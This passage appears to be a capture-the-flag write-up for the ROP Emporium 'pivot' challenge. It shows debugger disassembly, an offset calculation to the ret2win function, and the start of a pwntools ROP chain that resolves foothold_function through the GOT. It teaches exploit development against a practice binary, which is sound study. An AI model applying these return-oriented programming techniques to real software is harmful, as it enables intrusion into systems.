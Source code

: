 ```asm
   0xf7f7179f <+34>:	add    esp,0x10
   0xf7f717a2 <+37>:	nop
   0xf7f717a3 <+38>:	mov    ebx,DWORD PTR [ebp-0x4]
   0xf7f717a6 <+41>:	leave  
   0xf7f717a7 <+42>:	ret    
End of assembler dump.
```

Okay, sweet, now the got entry has been updated.
Let's locate the ret2win function
	```asm
	gef➤  disass ret2win
	Dump of assembler code for function ret2win:
	   0xf7f71974 <+0>:	push   ebp
	   0xf7f71975 <+1>:	mov    ebp,esp
		...etc...
	```

Okay so offset of ret2win is `0xf7f71974 - 0xf7f7177d = 503`


# Crafting our Rop Chain (task 2)
So there are three options (per the instructions [here](https://ropemporium.com/challenge/pivot.html) here for how we want to return to ret2win:

![](resources/count_the_ways.png)

Let's go with option 3...

So let's craft our rop chain.

We first want to call foothold_address, then add 503 to it. Let's do that and work from there...  
We can use just use the built-in features of pwntools to grab the address of foothold_function in the got.  
We'll put the foothold_function@got address onto the stack, then pop it into the eax register

```python
fhold_got = p32(elf.symbols['got.foothold_function'])
eax = fhold_got
eax_gadget = p32(rop.eax.address)
rop_chain = [
        fhold_addr,          # first, call foothold_function, so that it's address in memory is linked and resolved in the got
	eax_gadget,
	eax
        ]
```
